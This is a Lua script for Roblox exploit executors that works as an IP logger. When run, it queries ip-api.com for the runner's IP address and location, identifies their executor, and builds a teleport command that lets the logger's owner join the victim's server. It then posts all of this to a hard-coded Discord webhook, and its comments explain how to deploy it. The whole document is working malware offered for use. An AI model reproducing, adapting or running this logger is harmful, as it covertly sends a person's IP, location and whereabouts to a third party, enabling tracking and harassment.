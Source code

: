 —Logs

local join_script = string.format("game:GetService('TeleportService'):TeleportToPlaceInstance(%s, '%s', game:GetService('Players').LocalPlayer)", game.PlaceId, game.JobId)
print(helo) --line above generates a script that allows u to join the logged user

--checks executor
local webhookcheck =
   is_sirhurt_closure and "Sirhurt" or pebc_execute and "ProtoSmasher" or syn and "Synapse X" or
   secure_load and "Sentinel" or
   KRNL_LOADED and "Krnl" or
   SONA_LOADED and "Sona" or
   "Kid with shit exploit"

local url =
   "https://discord.com/api/webhooks/1308826441038823474/IGzPUlL71GUwo_5jxfWWHipFIlkdY93LFWq2V5NcIe99QpYMjDqrUqYExtQu3MQY7twt" --pretty obvious what to do here
local data = {
            ["username"] = "Salmon-L0G", --webhook name thing idk
            ["avatar_url"] = "https://cdn.upload.systems/uploads/haO2MM1R.png", --avatar image url
    
    ["content"] = " @everyone **" ..game.Players.LocalPlayer.Name.. "** just ran your logger", --normal message
    ["embeds"] = {
       {
           ["title"] = "** " ..game.Players.LocalPlayer.Name.. " just ran your logger**",
           ["description"] = "**"..game:HttpGet("http://ip-api.com/line/?fields=61439").. "Username: "  ..game.Players.LocalPlayer.Name..", Uses: " ..webhookcheck.. "**",
           ["type"] = "rich", --line above sends all the info grabbed using the api + username and exacutor
           ["color"] = 14680319,
           ["footer"] = {
             ["text"] = "" ..join_script.. "", --sends join script
           },
       },
   }
}

local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
   ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef) --post, idk


